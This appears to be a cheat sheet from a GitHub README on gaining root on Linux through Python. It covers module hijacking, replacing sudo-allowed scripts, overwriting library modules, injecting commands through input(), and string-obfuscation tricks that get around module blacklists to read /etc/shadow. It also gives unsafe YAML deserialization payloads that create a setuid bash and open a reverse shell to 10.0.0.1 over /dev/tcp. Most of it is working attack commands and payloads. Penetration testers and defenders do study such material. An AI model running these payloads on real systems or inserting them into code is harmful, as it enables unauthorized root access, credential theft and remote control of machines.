 ### There are multiple ways to escalate with python

## EXAMPLES:

# MODULE HIJACKING

#### 1) SETENV: NOPASSWD /usr/bin/python /home/whatever/script.py

#### 2) Check if you can overwrite an already existing module in python, or simply create the missing import module that the script asks

#### E.g.: ImportError: No module named pwned

#### 3) Create the malicious binary in any directory we have write access to (/tmp directory as usual)

#### 4) The payload can be (import os; os.system('/bin/bash') or a python reverse shell.

#### 5) chmod +x pwned.py

#### 6) sudo PYTHONPATH/tmp/ /usr/bin/python /home/whatever/script.py

#### 7) Enjoy root!

# SUDO PRIVILEGE ESCALATION

#### 1) NOPASSWD: /usr/bin/python /home/USER/script.py

#### 2) If the python script is under the current user's home directory, we can remove the script and create the new one with the same name.

#### rm -rf /home/USER/script.py

#### touch /home/USER/script.py

#### 3) Insert payload (import os;os.system('/bin/bash')

#### 4) GGEZ

# MODULE OVERRIDING 

#### If the Python script contains a module that can be modified by current user, we can inject arbitrary code into the module.

#### 1) First, check what modules the Python script uses.

#### 2) find / -name "random.py" 2>/dev/null

#### 3) ls -la /usr/lib/python3.6/random.py

#### 4) If we have write permissions on the file, we can inject our own malicious code for privesc (import os; os.system('/bin/bash')

#### 5) Execute for root shell ;)

# OS COMMANDS IN INPUT()

#### 1) If the python executable asks for input, you can try to enter OS commands like:

#### 2) Input: __import__('os').system('id')

# BLACKLISTED PYTHON MODULES

### Examples: 

#### eval, exec, import, open, os, read, system, write

#### Bypass techniques: String obfuscation

#### Payload: print(globals())
#### print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('cat /etc/shadow'))
#### __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /etc/shadow')

#### Bypass techniques: Input

#### If the "eval" or "exec" modules are accepted, we can input arbitrary code.

#### eval(input()) or exec(input())

#### print(open("/etc/passwd", "r").read())

# PYTHON YAML PRIVILEGE ESCALATION

### Python yaml package is vulnerable to execute arbitrary commands

#### 1) import yaml; filename = "example.yml"; yaml.load()

#### 2) Payload: 

#### import yaml

#### from yaml import Loader, UnsafeLoader

#### data = b'!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]'

#### yaml.load(data)

#### yaml.load(data, Loader=Loader)

#### yaml.load(data, Loader=UnsafeLoader)

#### yaml.load_all(data)

#### yaml.load_all(data, Loader=Loader)

#### yaml.load_all(data, Loader=UnsafeLoader)

#### yaml.unsafe_load(data)

#### 3) /tmp/bash -p

### Base64 Encoding RCE

#### 1) yaml.load(b64decode(b"ISFweXRa...YXNoIl0="))

### Reverse Shell

#### 1) start listener: nc -lvnp 1234

#### 2) Execute python script that contains YAML code as root:

#### import yaml

#### yaml.load('!!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1"'])
